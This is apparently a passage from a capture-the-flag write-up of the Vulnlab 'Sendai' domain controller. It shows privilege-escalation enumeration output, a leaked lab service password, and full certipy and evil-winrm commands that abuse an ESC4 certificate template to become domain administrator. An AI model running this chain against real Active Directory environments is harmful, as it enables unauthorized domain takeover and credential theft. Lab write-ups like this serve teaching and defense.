Key         : HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System
Value       : LocalAccountTokenFilterPolicy
Data        : (null)
Vulnerable  : False
Description : Only the built-in Administrator account (RID 500) can be granted a high integrity token when authenticating remotely (default).

Key         : HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System
Value       : FilterAdministratorToken
Data        : (null)
Vulnerable  : True
Description : The built-in administrator account (RID 500) is granted a high integrity token when authenticating remotely (default).


┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0006 - Credential Access                        ┃
┃ NAME     ┃ LSA Protection                                    ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether LSA protection is enabled. Note that when LSA  ┃
┃ protection is enabled, 'lsass.exe' runs as a Protected       ┃
┃ Process Light (PPL) and thus can only be accessed by other   ┃
┃ protected processes with an equivalent or higher protection  ┃
┃ level.                                                       ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Vulnerable - Low


Key         : HKLM\SYSTEM\CurrentControlSet\Control\Lsa
Value       : RunAsPPL
Data        : (null)
Description : LSA protection is not enabled.


┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0006 - Credential Access                        ┃
┃ NAME     ┃ Credential Guard                                  ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether Credential Guard is supported and enabled.     ┃
┃ Note that when Credential Guard is enabled, credentials are  ┃
┃ stored in an isolated process ('LsaIso.exe') that cannot be  ┃
┃ accessed, even if the kernel is compromised.                 ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)


SecurityServicesConfigured  : (null)
SecurityServicesRunning     : (null)
SecurityServicesDescription : Credential Guard is not supported.
LsaCfgFlagsPolicyKey        : HKLM\SOFTWARE\Policies\Microsoft\Windows\DeviceGuard
LsaCfgFlagsPolicyValue      : LsaCfgFlags
LsaCfgFlagsPolicyData       : (null)
LsaCfgFlagsKey              : HKLM\SYSTEM\CurrentControlSet\Control\LSA
LsaCfgFlagsValue            : LsaCfgFlags
LsaCfgFlagsData             : (null)
LsaCfgFlagsDescription      : Credential Guard is not configured.


┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0003 - Persistence                              ┃
┃ NAME     ┃ UEFI & Secure Boot                                ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether UEFI and Secure Boot are supported and         ┃
┃ enabled. Note that Secure Boot requires UEFI.                ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Vulnerable - Low

Name        Vulnerable Description
----        ---------- -----------
UEFI             False BIOS mode is UEFI.
Secure Boot       True Secure Boot is not enabled.


┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0008 - Lateral Movement                         ┃
┃ NAME     ┃ LAPS                                              ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether LAPS is configured and enabled. Note that this ┃
┃ applies to domain-joined machines only.                      ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Vulnerable - Medium


Policy      : Enable local admin password management (LAPS legacy)
Key         : HKLM\Software\Policies\Microsoft Services\AdmPwd
Default     : 0
Value       : (null)
Description : The local administrator password is not managed (default).

Policy      : LAPS > Configure password backup directory
Key         : HKLM\Software\Microsoft\Policies\LAPS
Default     : 0
Value       : (null)
Description : The local administrator password is not backed up (default).


┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0001 - Initial Access                           ┃
┃ NAME     ┃ BitLocker configuration                           ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether BitLocker is enabled on the system drive and   ┃
┃ requires a second factor of authentication (PIN or startup   ┃
┃ key). Note that this check might yield a false positive if a ┃
┃ third-party drive encryption software is installed.          ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)


MachineRole : Domain Controller
Description : Not a workstation, BitLocker configuration is irrelevant.


┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0004 - Privilege Escalation                     ┃
┃ NAME     ┃ PATH folder permissions                           ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether the current user has any write permissions on  ┃
┃ the system-wide PATH folders. If so, the system could be     ┃
┃ vulnerable to privilege escalation through ghost DLL         ┃
┃ hijacking.                                                   ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0004 - Privilege Escalation                     ┃
┃ NAME     ┃ Known ghost DLLs                                  ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Get information about services that are known to be prone to ┃
┃ ghost DLL hijacking. Note that their exploitation requires   ┃
┃ the current user to have write permissions on at least one   ┃
┃ system-wide PATH folder.                                     ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational


Name           : cdpsgshims.dll
Description    : Loaded by the Connected Devices Platform Service (CDPSvc) upon startup.
RunAs          : NT AUTHORITY\LocalService
RebootRequired : True
Link           : https://nafiez.github.io/security/eop/2019/11/05/windows-service-host-process-eop.html

Name           : WptsExtensions.dll
Description    : Loaded by the Task Scheduler service (Schedule) upon startup.
RunAs          : LocalSystem
RebootRequired : True
Link           : http://remoteawesomethoughts.blogspot.com/2019/05/windows-10-task-schedulerservice.html

Name           : SprintCSP.dll
Description    : Loaded by the Storage Service (StorSvc) when the RPC procedure 'SvcRebootToFlashingMode' is invoked.
RunAs          : LocalSystem
RebootRequired : False
Link           : https://github.com/blackarrowsec/redteam-research/tree/master/LPE%20via%20StorSvc

Name           : wlanapi.dll
Description    : Loaded by the Network Connections service (NetMan) when listing network interfaces.
RunAs          : LocalSystem
RebootRequired : False
Link           : https://itm4n.github.io/windows-server-netman-dll-hijacking/


┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0004 - Privilege Escalation                     ┃
┃ NAME     ┃ AlwaysInstallElevated                             ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether the 'AlwaysInstallElevated' policy is enabled  ┃
┃ system-wide and for the current user. If so, the current     ┃
┃ user may install a Windows Installer package with elevated   ┃
┃ (SYSTEM) privileges.                                         ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)


LocalMachineKey   : HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
LocalMachineValue : AlwaysInstallElevated
LocalMachineData  : (null)
Description       : AlwaysInstallElevated is not enabled in HKLM.


┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0008 - Lateral Movement                         ┃
┃ NAME     ┃ WSUS configuration                                ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether WSUS uses the HTTPS protocol to retrieve       ┃
┃ updates from the on-premise update server. If WSUS uses the  ┃
┃ clear-text HTTP protocol, it is vulnerable to MitM attacks   ┃
┃ that may result in remote code execution as SYSTEM.          ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)


Key         : HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate
Value       : WUServer
Data        : (null)
Description : No WSUS server is configured.

Key         : HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\AU
Value       : UseWUServer
Data        : (null)
Description : WSUS server not enabled.

Key         : HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate
Value       : SetProxyBehaviorForUpdateDetection
Data        : (null)
Description : Proxy fallback not configured.

Key         : HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate
Value       : DisableWindowsUpdateAccess
Data        : (null)
Description : Windows Update not disabled.


┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0008 - Lateral Movement                         ┃
┃ NAME     ┃ Hardened UNC paths                                ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether sensitive UNC paths are properly hardened.     ┃
┃ Note that non-hardened UNC paths used for retrieving group   ┃
┃ policies can be hijacked through an MitM attack to obtain    ┃
┃ remote code execution as SYSTEM.                             ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0006 - Credential Access                        ┃
┃ NAME     ┃ SCCM cache folder                                 ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether the SCCM cache folder exists. Manual           ┃
┃ investigation may require administrative privileges.         ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (nothing found)
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0006 - Credential Access                        ┃
┃ NAME     ┃ SCCM cache folder permissions                     ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether the current user has read permissions on the   ┃
┃ SCCM cache folder. If so, it might be possible to extract    ┃
┃ hardcoded credentials from MSI package files or scripts.     ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0004 - Privilege Escalation                     ┃
┃ NAME     ┃ Point and Print configuration                     ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether the Print Spooler service is enabled and if    ┃
┃ the Point and Print configuration allows non-administrator   ┃
┃ users to install printer drivers.                            ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)


Policy      : Limits print driver installation to Administrators
Default     : 1
Expected    : 1
Value       : (null)
Description : Installing printer drivers when using Point and Print requires administrator privileges (default).

Policy      : Point and Print Restrictions > NoWarningNoElevationOnInstall
Default     : 0
Expected    : 0
Value       : (null)
Description : Show warning and elevation prompt (default).

Policy      : Point and Print Restrictions > UpdatePromptSettings
Default     : 0
Expected    : 0
Value       : (null)
Description : Show warning and elevation prompt (default).

Policy      : Point and Print Restrictions > InForest
Default     : 0
Expected    : 0
Value       : (null)
Description : Users can point and print to any machine (default).

Policy      : Point and Print Restrictions > TrustedServers
Default     : 0
Expected    : 1
Value       : (null)
Description : Users can point and print to any server (default).

Policy      : Point and Print Restrictions > ServerList
Default     : (null)
Expected    : <SERVER_LIST>
Value       : (null)
Description : A list of approved Point and Print servers is not defined.

Policy      : Package Point and print - Only use Package Point and Print
Default     : 0
Expected    : 1
Value       : (null)
Description : Users will not be restricted to package-aware point and print only (default).

Policy      : Package Point and print - Approved servers > PackagePointAndPrintServerList
Default     : 0
Expected    : 1
Value       : (null)
Description : Package point and print will not be restricted to specific print servers (default).

Policy      : Package Point and print - Approved servers > PackagePointAndPrintServerList
Default     : (null)
Expected    : <SERVER_LIST>
Value       : (null)
Description : A list of approved Package Point and Print servers is not defined.


┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0004 - Privilege Escalation                     ┃
┃ NAME     ┃ Driver co-installers                              ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether Driver Co-installers are disabled. A local     ┃
┃ user might be able to gain SYSTEM privileges by plugging in  ┃
┃ a device such as a mouse or keyboard with a vulnerable       ┃
┃ Driver Co-installer.                                         ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Vulnerable - Low


Key         : HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Device Installer
Value       : DisableCoInstallers
Data        : (null)
Description : Driver Co-installers are enabled (default).


┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0001 - Initial Access                           ┃
┃ NAME     ┃ Network selection from lock screen                ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether the 'Do not display network selection UI'      ┃
┃ policy is enabled on workstations (CVE-2021-28316 -          ┃
┃ Airstrike attack).                                           ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)


Description : Not a workstation, this check is irrelevant.


┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0004 - Privilege Escalation                     ┃
┃ NAME     ┃ Latest updates installed                          ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether a Windows security update was installed within ┃
┃ the last 31 days.                                            ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
Access denied 
At line:51 char:30
+         foreach ($HotFix in (Get-HotFix)) {
+                              ~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Get-HotFix], ManagementException
    + FullyQualifiedErrorId : System.Management.ManagementException,Microsoft.PowerShell.Commands.GetHotFixCommand
Cannot bind parameter 'Start' to the target. Exception setting "Start": "Cannot convert null to type "System.DateTime"."
At line:73 char:41
+ ...     $TimeSpan = New-TimeSpan -Start $LatestHotfix.InstalledOn -End $( ...
+                                         ~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : WriteError: (:) [New-TimeSpan], ParameterBindingException
    + FullyQualifiedErrorId : ParameterBindingFailed,Microsoft.PowerShell.Commands.NewTimeSpanCommand
[*] Status: Informational (not vulnerable)
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0004 - Privilege Escalation                     ┃
┃ NAME     ┃ User sessions                                     ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Get information about the currently logged-on users. Note    ┃
┃ that it might be possible to capture or relay the            ┃
┃ NTLM/Kerberos authentication of these users (RemotePotato0,  ┃
┃ KrbRelay).                                                   ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (nothing found)
┏━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃                 ~~~ PrivescCheck Summary ~~~                 ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
 TA0003 - Persistence
 -
 UEFI & Secure Boot →
 Low
 TA0004 - Privilege Escalation
 -
 Driver co-installers →
 Low
 TA0006 - Credential Access
 -
 LSA Protection →
 Low
 TA0008 - Lateral Movement
 -
 UAC settings →
 Low
 -
 LAPS →
 Medium

Warning: To get more info, run this script with the option '-Extended'.
```

```c
Name        : Support
DisplayName :
ImagePath   : C:\WINDOWS\helpdesk.exe -u clifford.davey -p RFmoB2WplgE_3p -k netsvcs
User        : LocalSystem
StartMode   : Automatic
```

| Username       | Password       |
| -------------- | -------------- |
| clifford.davey | RFmoB2WplgE_3p |

## Privilege Escalation

### Active Directory Certificate Services (AD CS) Domain Escalation ESC4

With the credentials of `Clifford.Davey` we gave `Active Directory Certificate Services (AD CS)` privilege escalation another try and found `dangerous permissions` this time, which pointed to `ESC4`.

- [https://posts.specterops.io/certified-pre-owned-d95910965cd2](https://posts.specterops.io/certified-pre-owned-d95910965cd2)

```c
┌──(kali㉿kali)-[~]
└─$ certipy-ad find -dc-ip 10.10.100.198 -u 'clifford.davey' -p 'RFmoB2WplgE_3p' -vulnerable -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'sendai-DC-CA' via CSRA
[!] Got error while trying to get CA configuration for 'sendai-DC-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'sendai-DC-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'sendai-DC-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : sendai-DC-CA
    DNS Name                            : dc.sendai.vl
    Certificate Subject                 : CN=sendai-DC-CA, DC=sendai, DC=vl
    Certificate Serial Number           : 326E51327366FC954831ECD5C04423BE
    Certificate Validity Start          : 2023-07-11 09:19:29+00:00
    Certificate Validity End            : 2123-07-11 09:29:29+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : SENDAI.VL\Administrators
      Access Rights
        ManageCertificates              : SENDAI.VL\Administrators
                                          SENDAI.VL\Domain Admins
                                          SENDAI.VL\Enterprise Admins
        ManageCa                        : SENDAI.VL\Administrators
                                          SENDAI.VL\Domain Admins
                                          SENDAI.VL\Enterprise Admins
        Enroll                          : SENDAI.VL\Authenticated Users
Certificate Templates
  0
    Template Name                       : SendaiComputer
    Display Name                        : SendaiComputer
    Certificate Authorities             : sendai-DC-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireDns
    Enrollment Flag                     : AutoEnrollment
    Private Key Flag                    : 16842752
    Extended Key Usage                  : Server Authentication
                                          Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 100 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 4096
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SENDAI.VL\Domain Admins
                                          SENDAI.VL\Domain Computers
                                          SENDAI.VL\Enterprise Admins
      Object Control Permissions
        Owner                           : SENDAI.VL\Administrator
        Full Control Principals         : SENDAI.VL\ca-operators
        Write Owner Principals          : SENDAI.VL\Domain Admins
                                          SENDAI.VL\Enterprise Admins
                                          SENDAI.VL\Administrator
                                          SENDAI.VL\ca-operators
        Write Dacl Principals           : SENDAI.VL\Domain Admins
                                          SENDAI.VL\Enterprise Admins
                                          SENDAI.VL\Administrator
                                          SENDAI.VL\ca-operators
        Write Property Principals       : SENDAI.VL\Domain Admins
                                          SENDAI.VL\Enterprise Admins
                                          SENDAI.VL\Administrator
                                          SENDAI.VL\ca-operators
    [!] Vulnerabilities
      ESC4                              : 'SENDAI.VL\\ca-operators' has dangerous permissions
```

Abusing `ESC4` was pretty straight forward and is very well described in the `research of SpecterOps`. I also wrote down the steps in my handbooks.

- [https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/10_post_exploitation.md#ESC4-Vulnerable-Certificate-Template-Access-Control](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/10_post_exploitation.md#ESC4-Vulnerable-Certificate-Template-Access-Control)

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Machines/Sendai/files]
└─$ certipy-ad template -username 'clifford.davey@sendai.vl' -password 'RFmoB2WplgE_3p' -template 'SendaiComputer' -save-old 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Saved old configuration for 'SendaiComputer' to 'SendaiComputer.json'
[*] Updating certificate template 'SendaiComputer'
[*] Successfully updated 'SendaiComputer'
```

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Machines/Sendai/files]
└─$ certipy-ad req -ca 'sendai-DC-CA' -username 'clifford.davey@sendai.vl' -password 'RFmoB2WplgE_3p' -target 'sendai-DC-CA' -template 'SendaiComputer' -upn 'administrator@sendai.vl'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error: The NETBIOS connection with the remote host timed out.
[-] Use -debug to print a stacktrace
```

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Machines/Sendai/files]
└─$ certipy-ad req -ca 'sendai-DC-CA' -username 'clifford.davey@sendai.vl' -password 'RFmoB2WplgE_3p' -target 'sendai-DC-CA' -template 'SendaiComputer' -upn 'administrator@sendai.vl'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 5
[*] Got certificate with UPN 'administrator@sendai.vl'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Machines/Sendai/files]
└─$ certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.100.198
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@sendai.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sendai.vl': aad3b435b51404eeaad3b435b51404ee:<REDACTED>
```

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Machines/Sendai/files]
└─$ evil-winrm -i sendai.vl -u 'administrator' -H <REDACTED>

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

## root.txt

```c
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
VL{REDACTED}
```
